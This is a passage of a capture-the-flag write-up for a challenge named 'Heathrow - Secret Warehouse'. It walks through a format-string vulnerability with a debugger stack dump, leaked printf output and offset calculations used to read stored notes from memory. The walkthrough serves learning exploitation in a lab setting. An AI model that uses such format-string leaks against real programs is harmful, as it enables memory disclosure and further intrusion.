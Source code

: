```
0x00007fffffffcee0│+0x0080: 0x00007fffffffd130  →  0x0000007331313525 ("%511s"?)
0x00007fffffffcee8│+0x0088: 0x00007fffffffd150  →  "%p.%p.%p.%p.%p.%p.%p.%p"
0x00007fffffffcef0│+0x0090: 0x00007fffffffd130  →  0x0000007331313525 ("%511s"?)
0x00007fffffffcef8│+0x0098: 0x0000001700000001
...
0x00007fffffffd350│+0x04f0: 0x0000000000000000
0x00007fffffffd358│+0x04f8: 0xc545c1ab5ecb2800
0x00007fffffffd360│+0x0500: 0x00007fffffffe7c0  →  0x00005555555560e0  →  <__libc_csu_init+0> endbr64
0x00007fffffffd368│+0x0508: 0x000055555555606c  →  <main+449> jmp 0x5555555560a2 <main+503>
0x00007fffffffd370│+0x0510: 0x00007fffffffe8b8  →  0x00007fffffffeb44  →  "/media/sf_CTFs/google/11_Heathrow_-_Secret_Warehou[...]"
0x00007fffffffd378│+0x0518: 0x0000000100000000
0x00007fffffffd380│+0x0520: 0x0000000000000000
0x00007fffffffd388│+0x0528: 0x0000000a00000003
0x00007fffffffd390│+0x0530: "First note"
0x00007fffffffd398│+0x0538: 0x0000000000006574 ("te"?)
...
```

Now, stepping over the `printf`, we get the following output from the program:

```
gef>  ni
< 0x555555557008.0x1b.0xffffffffffffffe3.0x4.0x252e70252e70252e.0x17f7fb1540.0x555555557008.0x7fffffffcf10 >
```

Now we match the output from `printf` to the stack: We can see that `0x17f7fb1540` is the first value from `printf` that appears in the stack dump, meaning that we need to adjust our `printf` offset to account for the 5 values printed before it. We also see that `First note` appears at `0x00007fffffffd390│`, so: `(0x00007fffffffd390 - 0x00007fffffffce60) / 8 == 166`. Altogether we get 172 QWORDs until the first note, let's double check that:

```
> 3
Quote: %172$p
 ________
< 0x6f6e207473726946 >
 --------
   \    /\_/\
    \  ( o.o )
        > ^ <
```

Which verifies our calculation:

```console
┌──(user@kali)-[/media/sf_CTFs/google/11_Heathrow_-_Secret_Warehouse]
└─$ python3 -c 'print(bytes.fromhex("6f6e207473726946")[::-1])'
b'First no'
```

Now, we want to jump from the first note to the forth one, so we need to add: `(sizeof(note_t) * 3) / 8 == 193`, which gives us overall: `172 + ((516 * 3) // 8) == 365`.
